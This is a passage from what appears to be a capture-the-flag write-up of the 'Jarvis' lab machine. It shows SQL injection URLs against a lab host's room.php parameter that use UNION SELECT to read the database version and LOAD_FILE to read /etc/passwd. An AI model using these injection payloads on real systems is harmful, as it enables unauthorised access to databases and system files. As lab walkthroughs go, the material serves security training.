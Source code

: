 ```
http://10.129.229.137/room.php?cod=cod=00%20UNION%20SELECT%201,(select%20@@version),3,4,5,6,7;--%20-
```

![jarvis_version.png](../assets/jarvis_assets/jarvis_version.png)

Cool, Lets use `LOAD_FILE` to try displaying the `/etc/passwd file`:

```
http://10.129.229.137/room.php?cod=cod=00%20UNION%20SELECT%201,%20LOAD_FILE(%22/etc/passwd%22),%203,%204,5,6,7--%20-
```

![jarvis_passwd.png](../assets/jarvis_assets/jarvis_passwd.png)
